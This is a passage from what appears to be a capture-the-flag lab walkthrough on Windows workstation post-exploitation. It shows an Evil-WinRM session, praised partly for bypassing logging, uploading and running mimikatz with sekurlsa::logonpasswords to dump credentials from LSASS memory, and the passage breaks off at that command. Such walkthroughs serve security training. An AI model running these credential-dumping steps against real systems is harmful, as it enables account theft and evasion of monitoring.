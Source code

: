 **Why Evil-WinRM?**: 
- Upload/download functionality built-in
- Tab completion
- PowerShell history
- Bypasses some logging

---

## Phase 3: Workstation File System Exploration

### Understanding Windows Workstation Layout

**Key Directories for Workstations**:
- `C:\Users\*\Desktop`: User desktops (shortcuts, files)
- `C:\Users\*\Documents`: User documents
- `C:\Users\*\Downloads`: Downloaded files
- `C:\Users\*\AppData`: Application data (goldmine!)
- `C:\Users\Public`: Shared between all users
- `C:\ProgramData`: Application data (all users)
- `C:\Windows\Temp`: Temporary files

### FLAG 3: LSASS Memory Dump

**Location**: LSASS process memory  
**Difficulty**: Hard  
**Learning Objective**: Memory-based credential extraction

First, we need administrative privileges. Let's escalate using unquoted service paths (covered later), then:

```powershell
# Check if we have admin rights
*Evil-WinRM* PS C:\> whoami /groups | findstr Admin
BUILTIN\Administrators  Alias  S-1-5-32-544  Group used for deny only

# If not admin, escalate first (see FLAG 10-12), then:

# Method 1: Using Mimikatz
*Evil-WinRM* PS C:\Temp> upload /home/kali/tools/mimikatz.exe
Info: Uploading /home/kali/tools/mimikatz.exe to C:\Temp\mimikatz.exe
Data: 1355264 bytes of 1355264 bytes copied

*Evil-WinRM* PS C:\Temp> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 15 2025 10:00:00
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 '## v ##'       > https://blog.gentilkiwi.com/mimikatz
  '#####'        Vincent LE TOUX (vincent.letoux@gmail.com) > https://pingcastle.com

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
```
